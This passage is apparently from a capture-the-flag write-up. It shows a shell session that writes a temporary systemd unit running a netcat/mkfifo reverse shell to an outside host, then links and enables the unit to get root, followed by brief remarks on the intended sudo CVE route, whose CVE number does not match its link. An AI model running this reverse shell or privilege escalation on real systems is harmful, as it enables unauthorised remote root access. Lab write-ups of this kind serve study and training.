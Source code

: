 ```shell
$ TF=$(mktemp).service
$ echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/p;mkfifo /tmp/p;nc ${HOSTIP} ${HOSTPORT} 0</tmp/p|/bin/sh > /tmp/p 2>&1;rm /tmp/p"
[Install]
WantedBy=multi-user.target' > $TF
$ systemctl link $TF
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-unit-files ===
Authentication is required to manage system service or unit files.
Authenticating as: james
Password: 
==== AUTHENTICATION COMPLETE ===
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: james
Password: 
==== AUTHENTICATION COMPLETE ===
$ systemctl enable --now $TF
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-unit-files ===
Authentication is required to manage system service or unit files.
Authenticating as: james
Password: 
==== AUTHENTICATION COMPLETE ===
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: james
Password: 
==== AUTHENTICATION COMPLETE ===
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to start 'tmp.OLImCzDjDY.service'.
Authenticating as: james
Password: 
==== AUTHENTICATION COMPLETE ===
Job for tmp.OLImCzDjDY.service canceled.
```

Sure enough we get root in our reverse shell and can get the root flag. However there is not CVE for this
`adm` group is an intended feature. Upon looking at another writeup I found I was meant to use [CVE-2019-14297](https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/)
to exploit the sudo priveledges. But we got there a different way :).
